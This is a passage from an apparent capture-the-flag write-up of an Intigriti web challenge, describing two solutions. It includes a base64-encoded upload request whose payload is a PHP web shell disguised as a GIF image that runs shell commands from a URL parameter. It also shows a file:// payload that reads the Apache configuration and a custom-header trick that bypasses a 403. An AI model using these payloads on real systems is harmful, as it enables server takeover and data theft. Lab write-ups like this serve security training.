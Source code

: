 ```http
```

Again use burp to calculate the content length and encode it in cyber chef.

![19]

[Encoded Shell](https://gchq.github.io/CyberChef/#recipe=URL_Encode(true)&input=UE9TVCAvdXBsb2FkX3Nob3BwaXhfaW1hZ2VzLnBocCBIVFRQLzEuMQ0KSG9zdDogY2hhbGxlbmdlLTEwMjUuaW50aWdyaXRpLmlvDQpDb250ZW50LVR5cGU6IG11bHRpcGFydC9mb3JtLWRhdGE7IGJvdW5kYXJ5PS0tLS1ib3VuZGFyeQ0KQ29udGVudC1MZW5ndGg6IDQzMA0KDQotLS0tLS1ib3VuZGFyeQ0KQ29udGVudC1EaXNwb3NpdGlvbjogZm9ybS1kYXRhOyBuYW1lPSJpbWFnZSI7IGZpbGVuYW1lPSJzMXguanBnLnBocCINCkNvbnRlbnQtVHlwZTogaW1hZ2UvanBlZw0KDQpHSUY4OWE8P3BocCBpZihmdW5jdGlvbl9leGlzdHMoJ3Byb2Nfb3BlbicpICYmIGlzc2V0KCRfR0VUWydjJ10pKXsgICAkZD1bMD0%2BWyJwaXBlIiwiciJdLDE9PlsicGlwZSIsInciXSwyPT5bInBpcGUiLCJ3Il1dOyAgICRwPXByb2Nfb3BlbigkX0dFVFsnYyddLCRkLCRwaXBlcyk7ICAgaWYoaXNfcmVzb3VyY2UoJHApKXtmY2xvc2UoJHBpcGVzWzBdKTsgZWNobyBzdHJlYW1fZ2V0X2NvbnRlbnRzKCRwaXBlc1sxXSk7IGZjbG9zZSgkcGlwZXNbMV0pOyBmY2xvc2UoJHBpcGVzWzJdKTsgcHJvY19jbG9zZSgkcCk7fSB9ID8%2BDQotLS0tLS1ib3VuZGFyeS0t&ieol=CRLF&oeol=CRLF)

And send it 

![20]

Access the web shell through the uploads directory and voilà, we achieve RCE.

![21]

![22]


And that’s the write-up for the first solution I found; after talking with the[ Intrigriti Discord ](https://go.intigriti.com/discord)community, which I encourage joining because they’re awesome, I arrived at another possible solution that cleared up my doubts about another theory I had: performing a 403 bypass


## 4. Second solution 403 GUI Bypass

Practicing in the PortSwigger labs (you can follow how this is going on my X account), one of the labs mentions that sometimes devs create a custom header to access internal machine resources.

So, let’s get to work: it’s necessary to investigate the machine’s files until reaching this path

`etc/apache2/sites-enabled/000-default.conf`

 Reviewing it can expose the DocumentRoot, Directory blocks, custom rewrites, or security directives (e.g., custom headers, allow/deny rules) that explain 403 behavior or indicate required headers for internal access.

 Since only configurations linked in sites-enabled are active, checking 000-default.conf there confirms what Apache is actually loading, not just what is available elsewhere.

AND BINGO AGAIN!

**Payload: `file:////etc/apache2/sites-enabled/000-default.conf?http`**

![23]

In short: the file upload_shoppix_images.php is gated by a custom header check. The <If "%{HTTP:is-shoppix-admin} != 'true'"> clause denies access unless the incoming request includes the header is-shoppix-admin with the exact value true. Therefore, adding is-shoppix-admin: true to the request lets the authorization fall through to Require all granted, bypassing the 403 and allowing access via the GUI or any client that can set custom headers.
